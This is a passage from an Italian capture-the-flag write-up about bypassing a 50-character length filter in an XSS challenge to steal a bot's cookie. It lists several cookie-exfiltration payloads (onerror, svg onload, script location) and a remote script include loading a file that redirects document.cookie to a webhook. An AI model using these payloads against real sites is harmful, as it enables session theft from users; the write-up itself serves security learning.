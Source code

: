Facendo questo, si dovrebbe di nuovo ottenere la flag sul webhook come prima. Ora c'è da superare l'ultimo ostacolo...

#### Ultimo passo: filtro di lunghezza
Questo passo non richiedeva una vera e propria scienza. Diciamo che mi sono limitato a cercare un payload più corto possibile con la stessa filosofia dei payload precedenti. Per completezza, aggiungo un sottocapitolo con le varie cose che ho provato.

##### Cosa ho provato durante la gara
- Prima di tutto ho provato più volte a sfruttare la [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), con un payload del tipo [`<script src=//ﬀﬀ.pw>`](https://jlajara.gitlab.io/XSS_20_characters), ma mi era sembrato inutile in quanto non mi avrebbe permesso di esfiltrare il cookie (cosa assolutamente non vera, ci tornerò dopo) in quanto non sarei riuscito ad appendere il contenuto di `document.cookie`, visto che il solo utilizzo di src non mi avrebbe permesso di eseguire del codice JavaScript;

- Ho provato a usare `onerror` così: `<img src/onerror=this.src='https://[IP]/'+document.cookie>`, andando però ancora oltre al limite consentito di 50 caratteri;

- Ho trovato il modo di non specificare il protocollo, ottenendo `<img src/onerror=this.src='//[IP]/'+document.cookie>`. Ancora decisamente troppo.

- Ho provato a cambiare tag, provando prima con lo script `<script>location='//[IP]/'+document.cookie` dove `location` è una shortcut per accedere a `window location`, ma mi sono accorto che il payload non avrebbe funzionato se non avessi chiuso il tag.

- Ancora, stavolta con `<svg onload=location='//[IP]/'+document.cookie>`, ma con l'IP avrei comunque sfortato di pochi caratteri.

A forza di provare e riprovare, convincendomi sempre di più di non star usando il giusto approccio, e guardando e riguardando i file della challenge, anche i template che reputavo completamente sicuri, il mio sguardo è andato sul CDN di Bootstrap commentato. 

Quello che viene fatto col CDN, è includere del codice JavaScript presente su un server esterno nella pagina che la chiama. Per fare questo basta il riferimento a questo server e un tag `script`. Eureka.

#### XSS RFI
Penso di poterla chiamare una Remote File Inclusion?

Alla fine la soluzione era scrivere il proprio payload su un file qualsiasi. Il payload può essere lungo quanto si vuole, l'importante è che il tag che includerà il codice JavaScript in esso contenuto sia inferiore ai 50 caratteri.

A questo punto ho creato un file di nome `x.js` che cambiasse l'indirizzo della pagina in quello del mio server, ovvero:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

A questo punto, è bastato inviare al bot un payload che gli facesse cercare `<script src='//[IP]:[PORT]/'></script>` in modo che includesse il file sul mio server, lo eseguisse, e mi inviasse la flag cambiando appunto l'indirizzo della pagina da quello della challenge a quello del mio webhook con query parameter i cookie relativi al sito della challenge.

#### Come esporre un proprio server al mondo
Per esporre i propri file al resto dell'internet non c'è bisogno di possedere fisicamente un server. Il nostro PC può ricoprire questo ruolo senza troppi problemi. Basta avere Python per fare ciò che ho fatto io durante la gara, quindi credo che qualsiasi sistema operativo supporti Python, permetta anche di esporre un server come sto per mostrare:

